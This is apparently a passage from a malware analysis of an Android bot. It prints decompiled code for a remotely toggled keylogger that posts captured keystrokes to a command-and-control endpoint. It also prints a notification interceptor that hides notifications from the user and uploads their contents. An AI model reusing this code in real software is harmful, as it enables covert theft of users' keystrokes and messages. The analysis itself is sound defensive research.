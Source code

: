 ```cs
        }

        return false;
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        Boolean boolean0 = JsonUtils.hasObject(jsonObject0, "enable_keylogger") ? Boolean.valueOf(jsonObject0.get("enable_keylogger").getAsBoolean()) : null;
        if(boolean0 != null) {
            SharedPrefHelper.setIsKeyLoggerEnabled(this.context(), boolean0.booleanValue());
        }
    }

    public void onWindowStateChanged() {
        if(this.candidateToPass.size() > 0) {
            this.isRequestInProgress.set(true);
            Log.d("!!!!!", " SEND DATA TO SERVER " + this.candidateToPass);
            KeyLoggerModel keyLoggerModel0 = (KeyLoggerModel)this.candidateToPass.get(0);
            HashMap hashMap0 = new HashMap();
            hashMap0.put("messages", this.candidateToPass);
            this.api().makePost("device/kl", hashMap0).enqueue(new RestCallback() {
                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onError(Throwable throwable0) {
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }

                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onSuccess(RestResponse restResponse0) {
                    KeyLoggerComponent.this.candidateToPass.clear();
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }
            });
        }
    }

```


# Classic Features

## Notification intercepting

The malware will try to intercept notification using `onNotificationPosted` callback located in `com.sdktools.android.bot.components.commands`. The malware will intercept the comming notifications and  hide them from the user. Then push/upload the content of the notification to the C2 server.

```cs
 public void onNotificationPosted(StatusBarNotification statusBarNotification0) {
        Log.i(this.TAG, "**********  onNotificationPosted");
        if(SharedPrefHelper.getIsHiddenPushEnabled(this)) {
            this.cancelNotification(statusBarNotification0.getKey());
        }

        Notification notification0 = statusBarNotification0.getNotification();
        String s = notification0.extras.getString("android.title");
        String s1 = notification0.extras.getString("android.text");
        Timber.d("!!!!!", new Object[]{"title - " + s + " | description - " + s1 + " | app - " + statusBarNotification0.getPackageName()});
        String s2 = "Title - " + s + "\nDescription - " + s1;
        try {
            this.sendNotification(statusBarNotification0.getPackageName(), s2);
```